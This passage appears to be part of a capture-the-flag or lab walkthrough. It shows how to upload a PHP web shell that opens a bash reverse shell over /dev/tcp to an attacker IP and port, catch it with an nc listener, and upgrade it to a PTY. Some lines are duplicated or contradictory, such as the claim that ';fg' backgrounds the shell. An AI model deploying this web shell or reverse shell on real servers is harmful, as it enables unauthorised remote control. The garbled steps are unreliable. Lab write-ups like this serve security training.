

4.1 Create Web Shell
1. Fill in the form with as follow and submit the query.
Filename: shell.phtml
Content: <?PHP exec("/bin/bash -c 'bash -i >&/dev/tcp/192.168.12.10/1234 0>&1'");?>
Note: Type the “Content” value because otherwise you're going to have some troublel with quotes (") and simple quote (').
2. On your Kali Machine create a “nc” listener.
$ nc -vlnp 1234
Output:

3. Visit http://192.168.12.54/uploads/shell.phtml.
4. You'll get a “Reverse Shell” on your Kali Machine.
Output:
5. Get a PTY shell (Pseudo-terminal).
www-data@murph:~/html/uploads$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@murph:~/html/uploads$ export TERM=xterm
^Z (background it with CTRL+Z)
www-data@murph:~/html/uploads$ export TERM=xterm
^Z (background it with CTRL+Z)
Output:

6. Puts the shell into the foreground.
www-data@murph:~/html/uploads$ stty raw -echo;fg
^C
^C
The “;fg” command puts the shell back into the background.